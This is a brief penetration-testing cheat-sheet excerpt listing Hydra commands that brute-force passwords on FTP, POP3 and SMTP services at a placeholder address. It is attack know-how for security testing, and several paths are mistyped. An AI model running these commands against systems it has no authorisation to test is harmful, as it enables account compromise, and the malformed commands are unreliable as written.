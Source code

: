 # Brute Forcing Services [[2]]

### Hydra FTP Brute Force

	hydra -l USERNAME -P /usr/share/wordlistsnmap.lst-f 192.168.X.XXX ftp -V

### Hydra POP3 Brute Force

	hydra -l USERNAME -P /usr/sha/wordlistsnmap.lst-f 192.168.X.XXX pop3 -V
     
### Hydra SMTP Brute Force

	hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V
	



[2]: <https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/#brute-forcing-services>
